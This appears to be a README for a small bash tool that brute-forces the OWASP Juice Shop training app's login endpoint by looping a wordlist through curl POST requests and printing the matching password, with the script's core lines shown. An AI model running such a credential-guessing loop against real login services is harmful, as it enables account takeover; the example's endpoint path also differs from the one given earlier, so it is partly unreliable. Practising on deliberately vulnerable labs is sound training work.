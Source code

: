 ﻿# Welcome to Curl Post Brute Force!

Hi! This tool allow you to make post request and it was developed to help you to solve juice shop brute force problems.

## Permission
After you clone the repository give permission to sh file.

    $ sudo chmod +x ./postCurl.sh

# Files

The main file is called **postCurl.sh**.
It's very simple to use, you just have to pass three parameters.

> **First**, for juice shop app you'll use the email. e.g admin@juice-sh.op
> **Second**, The host: http://localhost:3000/rest/user/login
> **Third**, You'll need to informe a wordlist

## Example
To execute follow the code bellow and don't forget to grab a cup of coffee.

    $ ./postCurl.sh admin@juice-sh.op http://localhost:3000/user/rest/login /usr/share/wordlist/rockyou.txt

# How it works
First inside the file we have a simple parameters validate.

    if [ "$3" = "" ]; then
	    echo "How to use"
	    echo "./postCurl.sh [USERNAME] [HOST] [WORDLIST]"


After that we have a loop which **cat** a wordlist and put inside of **pass** variable.

    for pass in $(cat $3); do
    
Inside of the loop I made a **curl** request and put the response inside the **chamada** variable.

    chamada=$(curl -s --header "Content-Type: application/json" --request POST --data '{"email":"'$1'", "password":"'$pass'"}' $2)

I used this var to **grep** a specific word in a juice shop response and if the **if** found it, it will prints the username and password on the screen and break the loop.

    if grep "authentication" <<< "$chamada" ; then
		echo "[+] username: "$1 " , password: "$pass
		break
	fi

### Possibles upgrades.
|Feature|Benefits|
|--|--|
|sleep|it's help you not break the service|
|parameter to grep|for this first upload i put a hard code, but the good idea is that you able to choose what you looking for.|

